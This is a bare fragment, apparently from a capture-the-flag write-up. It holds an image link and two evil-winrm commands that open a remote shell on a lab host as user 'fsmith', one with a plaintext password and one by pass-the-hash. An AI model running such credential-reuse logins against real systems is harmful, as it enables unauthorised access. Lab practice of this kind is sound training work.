 



```
evil-winrm -i 10.10.10.175 -u fsmith -p Thestrokes23
```

```
evil-winrm -i 10.10.10.175 -u fsmith -H 45444sd4q5ze4ed1sq
```
